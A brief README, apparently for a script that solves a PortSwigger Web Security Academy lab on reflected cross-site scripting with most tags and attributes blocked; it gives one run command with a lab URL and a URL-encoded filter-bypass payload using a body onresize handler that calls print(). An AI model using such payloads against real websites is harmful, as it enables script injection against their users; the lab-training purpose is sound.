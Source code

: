 # How to run script.py

### Reflected XSS into HTML context with most tags and attributes blocked

No proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "%22%3E%3Cbody%20onresize=print()%3E"`
